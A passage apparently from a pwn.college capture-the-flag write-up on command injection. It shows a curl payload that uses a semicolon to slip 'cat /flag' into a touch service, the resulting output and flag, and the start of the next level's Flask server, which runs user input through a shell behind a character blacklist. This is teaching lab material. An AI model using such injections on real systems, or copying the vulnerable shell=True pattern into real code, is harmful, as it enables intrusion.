 ```
Request:
curl "http://challenge.localhost:80/task?filepath=; cat /flag > /home/hacker/flag"

Resultant commands:
touch ;
cat /flag > /home/hacker/flag
```

```
hacker@web-security~cmdi-5:/$ curl "http://challenge.localhost:80/task?filepath=;%20cat%20/flag%20>%20/home/hacker/flag"

        <html><body>
        Welcome to the touch service! Please choose a file to touch:
        <form action="/task"><input type=text name=filepath><input type=submit value=Submit></form>
        <hr>
        <b>Ran touch ; cat /flag > /home/hacker/flag!</b><br>
        </body></html>
```

```
hacker@web-security~cmdi-5:/$ cat ~/flag
pwn.college{8AaACXxDIVRIYtpf0DRFtffjDx6.ddjN1YDL4ITM0EzW}
```

&nbsp;

## CMDi 6

### Source code
```py title="/challenge/server" showLineNumbers
#!/opt/pwn.college/python

import subprocess
import flask
import os

app = flask.Flask(__name__)


@app.route("/adventure", methods=["GET"])
def challenge():
    arg = (
        flask.request.args.get("directory-path", "/challenge")
        .replace(";", "")
        .replace("&", "")
        .replace("|", "")
        .replace(">", "")
        .replace("<", "")
        .replace("(", "")
        .replace(")", "")
        .replace("`", "")
        .replace("$", "")
    )
    command = f"ls -l {arg}"

    print(f"DEBUG: {command=}")
    result = subprocess.run(
        command,  # the command to run
        shell=True,  # use the shell to run this command
        stdout=subprocess.PIPE,  # capture the standard output
        stderr=subprocess.STDOUT,  # 2>&1
        encoding="latin",  # capture the resulting output as text
    ).stdout
```